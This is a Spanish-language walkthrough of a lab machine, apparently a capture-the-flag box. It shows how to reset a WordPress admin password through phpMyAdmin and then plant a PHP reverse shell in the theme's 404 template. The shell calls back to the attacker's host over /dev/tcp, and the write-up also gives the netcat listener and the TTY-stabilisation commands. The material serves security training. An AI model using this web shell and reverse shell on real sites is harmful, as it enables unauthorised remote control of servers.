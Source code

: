 Aqui vamos a la url 
```bash
 http://10.10.10.37/phpmyadmin/ 
```
 y probamos. Ya podemos entrar en el panel de configuracion
de la base de datos.

Vemos la base de datos de wordpress y le cambiamos la contraseña al usuario NOTCH. Lo unico seria seleccionnar la Funcion
MD5 al lado de la contraseña.


![hmyadmi-otch](/assets/images/phpmyadmin-notch.png) 
Intentamos conectar al wordpress con el usuario NOTCH y su nueva contraseña y pa dentro.


### Editar el 404 Template de Wordpress {-}

Cada vez que se puede entrar en el panel de administracion de wordpress siempre hacemos lo mismo.

Pinchamos en 
```bash
 Appearance > Editor 
```
 y retocamos el fichero 404 Template.

> [ ! ] Nota: Si este fichero no existe, justo encima, se puede **Select theme to edit** y buscar otro tema.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Crear una reverse shell desde la 404 Template {-}

Nos ponemos en escucha con el puerto 443.

```bash
nc -nlvp 443
```

Editamos el fichero 404 Template con una reverse shell en php

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

ya podemos ir al url 
```bash
 http://10.10.10.37/?p=404.php 
```
 y pa dentro

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```
